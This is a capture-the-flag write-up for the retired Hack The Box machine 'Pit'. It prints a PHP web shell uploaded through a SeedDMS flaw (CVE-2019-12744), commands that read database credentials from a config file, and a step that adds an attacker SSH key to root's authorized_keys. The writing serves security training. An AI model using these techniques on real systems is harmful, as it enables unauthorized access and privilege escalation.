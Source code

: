 # Pit

This is the write-up for the box Pit that got retired at the 25th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.241    pit.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pit.nmap 10.10.10.241
```

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
|_http-server-header: nginx/1.14.1
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
(...)
```

UDP port scan:
```
nmap -sU 10.10.10.241
```
```
PORT    STATE SERVICE
161/udp open  snmp
```

## Checking HTTPS (Port 9090)

The website on port 9090 shows a login form to the server management software **Cockpit**:

![Login form to Cockpit](pit_web-1.png)

The certificate of the HTTPS site contains the hostname _dms-pit.htb_ that has to be added to the _/etc/hosts_ file to access it, but it forwards to the same login page.

## Checking HTTP (Port 80)

The website shows the _"Welcome to nginx on Red Hat Enterprise Linux!"_ page, which is the default **nginx** installation site on **Red Hat Enterprise Linux**.

The hostname _dms-pit.htb_ results in a HTTP status code _403 Forbidden_, so there is another web service there.

## Checking SNMP (Port 161)

Enumerating the SNMP service:
```
snmpwalk -v2c -c public 10.10.10.241 . | tee snmp.out
```

There is a potential username _michelle_.

Searching for web files:
```
grep html snmp.out
```

There is the directory _/var/www/html/seeddms51x/seeddms_ which exists on the hostname _dms-pit.htb_ on port 80.
It forwards to a login page of the document management system [SeedDMS](https://www.seeddms.org/):

![Login form SeedDMS](pit_web-1.png)

## Exploiting SeedDMS

By trying some easy-to-guess passwords the username _michelle_ uses the following password:
> michelle

This user has access to some documents and one from the administrator reveals the installed version of the application:
```
Dear colleagues,

Because of security issues in the previously installed version (5.1.10), I upgraded SeedDMS to version 5.1.15.
See the attached CHANGELOG file for more information.
If you find any issues, please report them immediately to admin@dms-pit.htb.
```

There is a public **Remote Code Execution** vulnerability for this application:
```
searchsploit seeddms

SeedDMS versions < 5.1.11 - Remote Command Execution
```

The [changelog file in the Git repository](https://sourceforge.net/p/seeddms/code/ci/master/tree/CHANGELOG) shows the fix for this vulnerability in version _5.1.11_:
```
fix for CVE-2019-12744 (Remote Command Execution through unvalidated file upload), add .htaccess file to data directory, better documentation for installing seeddms
```

This web server is **Nginx**, which [does not use .htaccess](https://www.nginx.com/resources/wiki/start/topics/examples/likeapache-htaccess/) and thus the vulnerability should still work here.

Uploading a document:
```
Docs --> Users --> Michelle --> Add document
```

Creating a malicious PHP file and adding it to the document:
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Browsing to the uploaded PHP file and testing command execution with the `id` command:
```
http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=id
```

It works and can be used to enumerate the box.

### Enumerating Local Files

As observed in the SNMP strings and the dot symbol behind every folder, it indicates that **SELinux** is enabled and getting a shell is not easily possible.

Enumerating the configuration of the web service
```
POST /seeddms51x/data/1048576/30/1.php HTTP/1.1
(...)

cmd=pwd
```
```
/var/www/html/seeddms51x/data/1048576/30
```
```
cmd=ls -la ../../../
cmd=ls -la ../../../conf
cmd=cat ../../../conf/settings.xml
```

The file _conf/settings.xml_ contains credentials:
```
dbDriver="mysql"
dbHostname="localhost"
dbDatabase="seeddms"
dbUser="seeddms"
dbPass="ied^ieY6xoquu"
```

The password works with the username _michelle_ on the login page of **Cockpit** on port 9090.
In the menu is a _Terminal_ that has the permissions of the user _michelle_ on the box.

## Privilege Escalation

In the SNMP strings there was output of a command or script that came from _/usr/bin/monitor_.
This seems to be executed when the SNMP strings are called.

It is a shell script and executes _/usr/local/monitoring/check*sh_:
```
file /usr/bin/monitor

/usr/bin/monitor: Bourne-Again shell script, ASCII text executable
```

Only root has access to the folder, but the plus symbol indicates that there are extended permissions that can be checked with `getfacl`:
```
ls -la /usr/local/ | grep monitoring

drwxrwx---+  2 root root 122 Aug 24 15:25 monitoring
```
```
getfacl /usr/local/monitoring/

# file: usr/local/monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```

The user can write into the directory, so lets create a shell script that will execute upon calling the SNMP service:
```
echo 'echo This is a test' > /usr/local/monitoring/check1.sh
```

Calling the SNMP service from our local client:
```
snmpwalk -v2c -c public 10.10.10.241 .
```
```
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: This is a test
```

It executed the `echo` command, so this can be used to upload an SSH key:
```
echo 'echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABg(...) >> /root/.ssh/authorized_keys' > /usr/local/monitoring/check1.sh
```

After running the `snmpwalk` again, the command will be executed and add the SSH key into _.ssh/authorized_keys_ file of root and it is possible to login as root!
```
ssh -i pit root@10.10.10.241
```
